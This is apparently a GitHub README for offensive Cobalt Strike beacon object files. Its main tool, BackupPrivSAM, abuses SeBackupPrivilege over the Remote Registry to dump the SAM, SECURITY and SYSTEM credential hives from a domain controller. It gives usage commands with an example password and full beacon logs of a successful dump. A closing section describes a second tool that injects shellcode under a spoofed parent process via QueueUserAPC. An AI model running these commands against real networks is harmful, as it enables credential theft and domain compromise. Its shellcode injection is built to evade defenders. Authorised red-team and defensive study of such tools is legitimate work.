

# BackupPrivSam

A basic implementation of abusing the `SeBackupPrivilege` via Remote Registry dumping to dump the remote SAM SECURITY AND SYSTEM hives.

Inspired by https://twitter.com/filip_dragovic initial PoC. Just made it into a BOF.

Could be improved to auto download the hives. CBA

## Usage

```
BackupPrivSAM [\\computername] [save path] (optional: [domain] [username] [password])
```

1. Dump the Hives to remote C:\ drive, using the current Primary Token

    `BackupPrivSAM \\dc01.contoso.local C:\`

2. Dump the Hives to remote C:\ drive, and impersonate a user

    `BackupPrivSAM \\dc01.contoso.local C:\ CONTOSO backup_service Password123`


## With Impersonation (SeBackupPrivilege enabled account)

```
beacon> backupPrivSAM \\cdc001.corp.contoso.local C:\ CORP backup_service *************
[*] Launching backupPrivSAM...
[+] host called home, sent: 2589 bytes
[+] received output:
Got Credentials. Making Token...
[+] received output:
Impersonated user: CORP\backup_service
[+] received output:
Will try to dump SAM from \\cdc001.corp.contoso.local\HKLM\ into folder 'C:\'
[+] received output:
Connecting to remote registry of '\\cdc001.corp.contoso.local'
[+] received output:
RegConnectRegistryW() - OK
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SAM hive to C:\SAM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SYSTEM hive to C:\SYSTEM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SECURITY hive to C:\SECURITY

beacon> ls \\cdc001\C$
[*] Tasked beacon to list files in \\cdc001\C$
[+] host called home, sent: 29 bytes
[*] Listing: \\cdc001\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     04/29/2019 01:27:26   $Recycle.Bin
          dir     04/27/2019 16:32:36   Documents and Settings
          dir     05/05/2019 17:53:11   PerfLogs
          dir     11/20/2019 11:30:27   Program Files
          dir     04/28/2019 17:45:56   Program Files (x86)
          dir     08/17/2021 21:09:38   ProgramData
          dir     04/27/2019 16:32:36   Recovery
          dir     04/28/2019 17:46:10   System Volume Information
          dir     04/29/2019 01:26:56   Users
          dir     10/02/2021 19:27:55   Windows
 380kb    fil     11/21/2016 00:42:45   bootmgr
 1b       fil     07/16/2016 14:18:08   BOOTNXT
 1gb      fil     07/19/2022 17:45:55   pagefile.sys
 52kb     fil     07/23/2022 21:23:45   SAM
 32kb     fil     07/23/2022 21:23:45   SECURITY
 17mb     fil     07/23/2022 21:23:45   SYSTEM
```

## Without impersonation

```
beacon> make_token CORP\backup_service **********
[*] Tasked beacon to create a token for CORP\backup_service
[+] host called home, sent: 59 bytes
[+] Impersonated CORP\Administrator

beacon> backupPrivSAM \\cdc001.corp.contoso.local C:\
[*] Launching backupPrivSAM...
[+] host called home, sent: 2511 bytes
[+] received output:
Will try to dump SAM from \\cdc001.corp.contoso.local\HKLM\ into folder 'C:\'
[+] received output:
Connecting to remote registry of '\\cdc001.corp.contoso.local'
[+] received output:
RegConnectRegistryW() - OK
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SAM hive to C:\SAM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SYSTEM hive to C:\SYSTEM
[+] received output:
Dumping \\cdc001.corp.contoso.local\HKLM\SECURITY hive to C:\SECURITY

beacon> ls \\cdc001\C$
[*] Tasked beacon to list files in \\cdc001\C$
[+] host called home, sent: 29 bytes
[*] Listing: \\cdc001\C$\

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     04/29/2019 01:27:26   $Recycle.Bin
          dir     04/27/2019 16:32:36   Documents and Settings
          dir     05/05/2019 17:53:11   PerfLogs
          dir     11/20/2019 11:30:27   Program Files
          dir     04/28/2019 17:45:56   Program Files (x86)
          dir     08/17/2021 21:09:38   ProgramData
          dir     04/27/2019 16:32:36   Recovery
          dir     04/28/2019 17:46:10   System Volume Information
          dir     04/29/2019 01:26:56   Users
          dir     10/02/2021 19:27:55   Windows
 380kb    fil     11/21/2016 00:42:45   bootmgr
 1b       fil     07/16/2016 14:18:08   BOOTNXT
 1gb      fil     07/19/2022 17:45:55   pagefile.sys
 52kb     fil     07/23/2022 21:24:06   SAM
 32kb     fil     07/23/2022 21:24:07   SECURITY
 17mb     fil     07/23/2022 21:24:07   SYSTEM
```

# QueueUserAPC_PPID

> queueuserapc_ppid/

BOF spawns a process of your choice under a specified parent, and injects a provided shellcode file via QueueUserAPC().


